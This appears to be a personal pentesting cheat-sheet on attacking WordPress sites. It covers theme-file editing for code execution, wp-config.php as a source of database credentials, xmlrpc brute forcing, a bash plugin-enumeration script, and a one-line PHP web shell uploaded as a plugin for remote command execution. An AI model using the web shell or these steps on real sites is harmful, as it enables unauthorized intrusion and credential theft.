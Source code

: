 # Wordpress

# Basic Information

## Themes files

They're located at ``/wp-content/themes/``  so if you gain access to the WordPress Admin panel, you can modify **404.php** of some theme, and then go to ``/wp-content/themes/twentytwenty/404.php``

## Main WordPress files

| File | Description| 
|-----|-------------|
|wp-config.php | Here you can find the root password of the database |
| xmlrpc.php | File that represents a feature that enables data to be transmited by HTTP with XML mechanism. You can use this [script](https://github.com/notlucken/xmlrpc_bruteforce/) to bruteforce users and passwords.|
| license.txt | Userful information like the version of WordPress |


# Plugins Enumeration

To identify plugins of a Wordpress site, we can use a Script created by S4vitar but I improved it and uploaded to GitHub: 

[Enumerate WordPress Plugins](https://github.com/notlucken/enumWordpressPlugins)

```bash
#!/bin/bash

function ctrl_c(){
  echo -e "[!] Exiting..."
  exit 1
}


#Ctrl + C
trap ctrl_c INT

declare -i c=0

function readPlugins(){

  url=$1
  echo -e "\n[!] These are the plugins of $1:\n"
  echo -n "[+] "; curl -s -X GET "$url" | grep -oP '/plugins/\K[^.*/]+' | sort -u 
}

function helPanel(){
  echo -e "\n[i] Use\n"
  echo -e "\nh) Show this panel\n"
  echo -e "\nf) URL\n"
}

while getopts "hf:" arg; do
  case $arg in
    h) ;;
    f) url=$OPTARG; let c+=1;;
  esac
done

if [ $c -eq 1 ]; then
  readPlugins "$url"
else
  helPanel
fi
```

The usage is simple, only do a ``chmod +x enumWordPressPlugins.sh`` and later ``./enumWordpressPlugins.sh <URL>


# Plugin RCE

## PHP Plugin

Depending on the plugin, we can upload a .php file as a plugin.
```php
<?php system($_GET['cmd']); ?>
```


![[Pasted image 20230225204350.png]]